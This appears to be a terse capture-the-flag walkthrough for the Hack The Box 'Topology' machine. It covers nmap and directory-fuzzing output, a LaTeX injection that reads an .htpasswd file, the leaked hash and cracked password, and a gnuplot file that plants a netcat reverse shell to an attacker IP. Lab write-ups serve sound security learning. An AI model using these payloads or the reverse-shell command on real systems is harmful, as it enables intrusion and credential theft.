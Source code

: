 # #1 Introduction
<img width="691" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/17b93d9f-213a-43e4-8df5-45d166672edb">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx topology.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- topology.htb
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

http://latex.topology.htb/equation.php
http://stats.topology.htb/
http://dev.topology.htb/

http://topology.htb/css/
http://topology.htb/images/
http://topology.htb/javascript/
http://topology.htb/portraits/


hta                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2816ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2818ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2816ms]
~lp                     [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2831ms]
~nobody                 [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2824ms]
~bin                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2831ms]
~sys                    [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2821ms]
~mail                   [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2824ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 4291ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 5037ms]
index.html              [Status: 200, Size: 6767, Words: 1612, Lines: 175, Duration: 5173ms]
javascript              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 5037ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 5076ms]


\texttt{\lstinputlisting{/var/www/dev/.htpasswd}}

vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0

vdaisley:calculus20


/opt/gnuplot

echo 'system "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.192 6666 >/tmp/f"' > /opt/gnuplot/test.plt
